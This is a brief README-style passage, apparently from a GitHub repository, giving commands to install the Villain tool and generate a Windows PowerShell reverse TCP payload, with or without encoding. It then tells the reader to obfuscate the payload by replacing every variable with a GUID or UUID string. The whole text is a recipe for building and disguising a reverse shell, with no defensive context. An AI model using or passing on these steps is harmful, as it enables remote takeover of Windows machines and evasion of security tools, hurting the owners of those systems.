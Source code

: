 
Install tool for generate payload
```
sudo apt install villain -y
```

Command for create payload for windows:
```
generate payload=windows/reverse_tcp/powershell_v2 lhost=eth0 encode
```
or
```
generate payload=windows/reverse_tcp/powershell_v2 lhost=eth0
```



Use manual encoding using `GUID` or `UUID`, Then change every variable with generated string.